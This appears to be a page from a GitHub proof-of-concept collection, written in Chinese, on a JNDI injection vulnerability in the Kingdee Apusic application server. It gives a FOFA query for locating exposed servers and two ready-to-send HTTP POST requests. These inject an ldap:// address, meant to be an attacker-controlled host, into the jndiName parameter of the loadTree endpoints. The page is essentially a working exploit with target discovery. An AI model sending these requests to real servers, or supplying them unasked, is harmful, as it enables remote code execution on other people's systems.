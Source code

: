 ## 金蝶Apusic应用服务器loadTree JNDI注入漏洞

## fofa
```
app="Apusic应用服务器"
```

## poc
```
POST /appmonitor/protect/jndi/loadTree HTTP/1.1
host:127.0.0.1

jndiName==ldap://地址

POST /admin/protect/jndi/loadTree HTTP/1.1
host:127.0.0.1

jndiName==ldap://地址
```

![a519acd405e2e60c00108378f8410c8d](https://github.com/wy876/POC/assets/139549762/faa32ae9-f7b0-4a76-9990-74635d28bd2f)

![1dc3f827f335c01618f9dd9c4b39832b](https://github.com/wy876/POC/assets/139549762/6eff9f3b-df75-4008-b713-db61a32739bd)

![584c726b09f954433d5c3248ac5c1368](https://github.com/wy876/POC/assets/139549762/dfe99f4f-d6eb-4869-a2f8-59d792d9dac4)

##漏洞来源
- https://mp.weixin.qq.com/s/iEHmFOKq5LT2x9Hp1ysLIw
